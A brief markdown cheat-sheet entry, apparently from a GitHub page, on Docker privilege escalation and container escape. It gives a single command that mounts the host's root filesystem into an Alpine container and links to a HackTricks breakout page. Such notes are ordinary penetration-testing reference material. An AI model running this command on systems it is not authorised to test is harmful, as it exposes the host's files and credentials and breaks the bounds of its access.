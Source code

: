 

# Guide

1. If Docker is running with elevated privileges

# Privilege Escalation

```
docker run -v /:/mnt -it alpine
```
# Escape Container

[Docker Breakout / Privilege Escalation | HackTricks | HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)
